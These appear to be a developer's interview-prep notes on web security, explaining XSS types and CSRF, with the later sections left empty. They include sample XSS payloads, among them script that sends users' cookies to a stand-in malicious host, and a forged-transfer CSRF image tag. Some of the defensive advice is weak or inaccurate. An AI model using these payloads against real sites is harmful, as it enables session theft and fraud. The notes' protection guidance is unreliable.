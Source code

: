 When I was in an interview of Tencent, the interviewer asked me how much Web security questions you know?

I found I don't have a systemic knowledge network of it.

So, there are some points I collected for memory.

## XSS

Its full name is Cross Site Script. But its abbreviation is CSS, which is the same as Cascading 
Style Sheets. SO....it becomes XSS. 

XSS is a code injection attack that allows an attacker to execute malicious 
JavaScript in another user's browser.

It includes these 3 types:

### Persistent XSS

Normally happened in those websites users can post their input. The malicious code will be saved in 
the database, therefore, each user who opened the page will be attacked.

For example, if there is a input tag, user can post their own content by it. Other users can open this page see 
the content.

```html
<!--the content in this tag will be post to database-->
<input type="text"> 

<!--if a user input "Users content", other user can see as below-->
<p>Users content</p>
```

But, if someone input a string as below:
`<script src="http://www.malicious-site.com/code"></script>`

the final result may as:

```html
<p><script src="http://www.malicious-site.com/code"></script></p>
```

And the script like as below:

```js
var img = document.createElement('img');
img.src = 'http://www.malicious-site.com/save-cookie?cookie=' + document.cookie;
document.body.appendChild(img);
```

In this way, the malicious site can get the cookie of each user who open the page.

To prevent it, I think the best way is to filter users' post content.

### Reflected XSS

Its principle is the same as Persistent XSS, attacker try to get user's personal information 
by insert HTML tag.

For example, there is a error page who shows error messages from the server by url, like 
`http://www.some-page.com/error?message=Page%20not%20found`, the content in `message` will be showed in 
HTML, like:

```html
<p>Page not found</p>
```

If an attack inputs an URL like `http://www.some-page.com/error?message=<script src="http://www.malicious-site.com/code"></script>`,
The final HTML will become:

```html
<p><script src="http://www.malicious-site.com/code"></script></p>
```

Next processes will be the same as Persistent XSS.

### DOM-based XSS

According to some of articles on the Internet, Dom-based XSS is a special Reflected XSS.

In my understanding, DOM-based XSS triggers attack via modifying DOM content, such as 
`innerHTML`, which is the same as Reflected XSS. 

But, their difference is that Dom-based XSS won't leave a mark in the server side, compared to Reflected XSS
which will leave a url record in the server request log.

There is a simple example updated from last example of Reflected XSS:

we can use a new url like:`http://www.some-page.com/error?message=Page%20not%20found#%3Cscript%20src%3D%22http%3A%2F%2Fwww.malicious-site.com%2Fcode%22%3E%3C%2Fscript%3E`.

The biggest difference is that we can use `location.hash` to inject malicious code to the page, which won't show the url after `#` in the 
server side. In this way, it is more difficult for website maintainers to find the attack by checking request log.

So the biggest difference among Reflected XSS and DOM-based XSS is that DOM-based XSS cannot be found in the server side, it is 
pure attack happened on client side.

### How to prevent XSS

I think the best way to prevent XSS is to forbid users to change HTML content, but this is difficult especially for those websites 
based on UGC. 

So, the feasible way is to filter url's parameters and UGC, such as some of special chars, `<>\/*;'`.

There are some alternative chars to replace sensitive chars in JS, such as `\u003c` and `\x3c` to replace `<`, and `\u003e` and `\x3e` to 
replace `>`.

## CSRF

Its full name is Cross Site Request Forgery, abbreviation is CSRF. 

Like XSS, it may steal users' cookie.

But their difference is that XSS is to make use of the trust for users, CSRF is to pretend as the user.

For example, there is a request `http://www.money.com?account=sender&amount=10000&for=receiver` to transfer money while 
the user was already logined and cookie was saved. If the user go to a malicious website which add a tag like 
`<img src='http://www.money.com?account=sender&amount=10000&for=hacker'>`, the cookie will be with this request because of
same domain.

In this way, the hacker does not need to get the user's cookie when attacking.

There are some ways to protect:

### Check HTTP Referer

The most simple way is to check HTTP Referer, which can identify the original website of 
the request. 

In Node.JS, for example:

```js
app.use(req => {
    if (req.headers.referer === 'http://legal-site.com'){
        //do something
    } else {
        //reject request
    }
});
```

But, in some of old version chrome, such as IE6 or FF2, there are ways to artificially modify 
HTTP Referer. Besides, users may forbid browser to offer HTTP Referer.

### Token

CSRF is to forge normal real user request. So, if we can use create a token that the attacker cannot 
get, we can avoid CSRF.

For example, we can calculate post message's hash value in front side, and set it in the url or http header,
when server is processing the request, it can check the token, if the token is not right, refuse to response.

## SQL Injection




## Command Injection



## DDoS attack



## Traffic hijacking
